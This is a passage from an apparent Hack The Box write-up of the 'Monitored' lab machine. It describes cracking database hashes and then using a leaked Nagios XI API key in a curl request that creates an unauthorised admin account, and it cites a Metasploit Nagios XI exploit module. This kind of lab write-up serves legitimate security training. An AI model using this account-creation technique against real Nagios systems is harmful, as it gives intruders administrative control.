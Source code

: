 Brute force hashes from database give me  new credentials: `nas:test`!  
But, at this point, I can do nothing...  
After looking back at the `xi_users` table and seeing the `api_key` field i decided to explore the `API` way.  
![monitored12](/images/blog/writeup/monitored/monitored12.png)

After hours of enumeration (nagios api documentation is very poor), i successfully created a new admin user! 🔥  

```shell
curl -k -XPOST "https://nagios.monitored.htb/nagiosxi/api/v1/system/user?apikey=IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL&pretty=1" -d "username=pwnedeheh&password=pwned&auth_level=admin&email=pwned@localhost&name=pwned"
```
![monitored13](/images/blog/writeup/monitored/monitored13.png)

Ressources:
- `api endpoint` : https://support.nagios.com/forum/viewtopic.php?t=42923
- `api admin parameter` : https://raw.githubusercontent.com/rapid7/metasploit-framework/fc3199259b72e20da222480e8cd9734511a50ab8/modules/exploits/linux/http/nagios_xi_chained_rce_2_electric_boogaloo.rb

`admin` section contains interesting features in `core config manager` [here](https://nagios.monitored.htb/nagiosxi/includes/components/ccm/xi-index.php):  